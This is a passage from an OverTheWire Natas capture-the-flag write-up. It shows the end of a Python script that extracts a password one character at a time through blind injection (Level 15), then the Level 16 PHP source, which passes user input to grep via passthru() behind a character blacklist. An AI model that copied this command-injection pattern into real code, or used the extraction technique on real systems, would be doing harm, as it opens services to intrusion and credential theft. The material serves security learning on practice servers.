 ```python
            if 'This user exists.' in r.text:
                password += char
                break
        else:
            break
    return password


if __name__ == '__main__':
    charset = get_charset()
    password = get_password(charset)
    print(password)
```

[*Back to top*](#overthewire---natas)

## Level 16

![natas16_index.jpg](screenshots/natas/natas16_index.jpg)

[Sourcecode](http://natas16.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```
